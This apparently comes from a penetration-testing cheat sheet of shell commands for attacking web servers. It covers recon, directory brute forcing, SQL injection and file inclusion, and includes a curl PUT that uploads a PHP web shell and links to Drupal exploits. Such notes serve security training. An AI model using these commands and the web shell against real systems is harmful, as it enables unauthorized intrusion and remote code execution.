 # basic commands
- check fingerprint
  ~~~sh
  cd /tmp/
  wget http://www.net-square.com/_assets/httprint_linux_301.zip && unzip httprint_linux_301.zip
  cd httprint_301/linux/
  ./httprint -h http://${HOST} -s signatures.txt
  ~~~

- Discovery dirs and files
  ~~~sh
  # nmap
  nmap -p80,443 --script http-enum -oA nmap-http-enum-${HOST} ${HOST}
  dirb http://${HOST}/

  # check Disallow dirs in robots.txt
  curl -s http://${HOST}/robots.txt | grep Disallow | sed 's/Disallow: //'
  for i in $(curl -s http://${HOST}/robots.txt | grep Disallow | sed 's/Disallow: //') ; \
  do RESULT=$(curl -s -I http://${HOST}"$i" | grep "200 OK") ; echo -e "$i $RESULT\r" ; done
  
  # brute force a dirs with custom wordlists
  nmap -p80 --script=http-brute --script-args 'http-brute.path=/printers/, userdb=/usr/share/wordlists/metasploit/http_default_users.txt, passdb=/usr/share/wordlists/rockyou.txt' ${HOST}
  nmap -p80 --script http-brute --script-args http-brute.path=/printers/ ${HOST}
  nmap --script -http-enum --script-args http-enum.basepath='pub/' ${HOST}
  ~~~

- check http headers / banners
  ~~~sh
  # mass
  nmap --script=http-headers 192.168.1.0/24
  nmap --script http-title -sV -p 80 192.168.1.0/24 
  
  # nc
  nc -nvv ${HOST} 80
    # Header
    HEAD / HTTP/1.0
  ~~~

- check methods and put to test
  ~~~sh
  DIR="test/"
  # check
  curl -v -X OPTIONS http://${HOST}/${DIR}
  # put
  curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://${HOST}/${DIR}
  ~~~

- vulnerability scanners
  ~~~sh
  nikto -C all -h http://${HOST}
  skipfish -m 5 -LY -S /usr/share/skipfish/dictionaries/complete.wl -o ./skipfish2 -u http://${HOST}
  skipfish -o 202 http://${HOST}/wordpress
  ~~~

# PHP
~~~sh
http://${TARGET}/?page=upload   # original page
http://${TARGET}/?page=php://filter/convert.base64-encode/resource=upload
curl http://${TARGET}/?page=php://filter/convert.base64-encode/resource=upload
~~~

# SQL injection
~~~sh
sqlmap -u "http://${HOST}/?page=login" -a --level=5
sqlmap -r <request file> -a --level=5

hexorbase # GUI
~~~

# File including(LFI, RFI and RCE)
~~~sh
uniscan -u http://${HOST}:${PORT}/ -qweds
# Harvesting and testing
fimap -H -u "http://${HOST}" -d 3 -w /tmp/urllist
fimap -m -l /tmp/urllist
~~~

# CMS
- wordpress
~~~sh
wpscan ${TRGTDOMAIN}
wpscan --url http://${HOST} --enumerate u
wpscan --url http://${HOST}/secret --wordlist /usr/share/wordlists/dirb/big.txt --threads 2
~~~

- joomla
~~~sh
PORT="8081"
joomscan -u http://${HOST}:${PORT}}
~~~

- Drupal
  - Drupageddon
    - https://www.exploit-db.com/exploits/34984
    - https://www.exploit-db.com/exploits/34992
  - User enum
    - https://raw.githubusercontent.com/darkr4y/pentest-script/master/py/drupal_bruterforce.py
    - https://raw.githubusercontent.com/s0wr0b1ndef/OSCP-note/master/ENUMERATION/CMS/Drupal/drupal-finduser.sh

- Tools
  - https://github.com/FlorianHeigl/cms-explorer
